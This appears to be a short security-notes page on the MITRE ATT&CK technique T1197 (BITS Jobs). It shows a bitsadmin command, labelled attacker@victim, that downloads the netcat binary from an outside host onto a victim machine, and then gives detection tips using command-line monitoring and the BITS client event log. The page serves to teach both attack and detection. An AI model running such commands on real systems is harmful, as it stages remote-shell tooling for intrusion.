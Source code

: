 ```yaml
---
description: File upload to the compromised system.
---
```


# T1197: BITS Jobs

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/bits-download.png)

## Observations

Commandline arguments monitoring can help discover bitsadmin usage:

![](../.gitbook/assets/bits-cmdline.png)

`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor as well. An example of one of the jobs:

![](../.gitbook/assets/bits-operational-logs.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1197" %}

